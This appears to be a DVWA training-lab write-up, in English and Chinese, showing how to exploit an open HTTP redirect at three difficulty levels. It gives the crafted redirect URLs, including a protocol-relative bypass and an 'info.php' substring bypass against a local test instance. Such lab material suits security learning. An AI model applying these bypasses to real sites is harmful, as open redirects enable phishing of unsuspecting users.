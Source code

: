 # Open HTTP Redirect

## Low 
The redirect page has no limitations, you can redirect to anywhere you want.

開發者的重定向沒有多加設計，讓人可以隨心所欲地到處亂跑

![alt text](image.png)

使用Burpsuite 攔截，可以看到兩個路徑
![alt text](image-1.png)
得知了它的redirect的地方
![alt text](image-2.png)
直接把url複製起來，就可以訪問到外面去了，redirect改成想要外連的網頁
```
    http://127.0.0.1/dvwa/vulnerabilities/open_redirect/source/low.php?redirect=http://download.zip?id=1
```

## Medium
在medium的session中，它把URL絕對路徑擋住了
```
    http://127.0.0.1/dvwa/vulnerabilities/open_redirect/source/medium.php?redirect=http://download.zip?id=1
```
回傳的結果：
![alt text](image-3.png)

但如果把http拿掉改成相對路徑，還是可以訪問的到
```
    http://127.0.0.1/dvwa/vulnerabilities/open_redirect/source/medium.php?redirect=//www.google.com?id=1
```
![alt text](image-4.png)


## HIGH
The redirect page tries to lock you to only redirect to the info.php page, but does this by checking that the URL contains "info.php".

這下使用相對路徑也被封了，但是這題有解釋它只會redirect to the info.php
因此你只需要小小改一下變數

```
    http://127.0.0.1/dvwa/vulnerabilities/open_redirect/source/high.php?redirect=//www.google.com?a=info.php
```

![alt text](image-5.png)
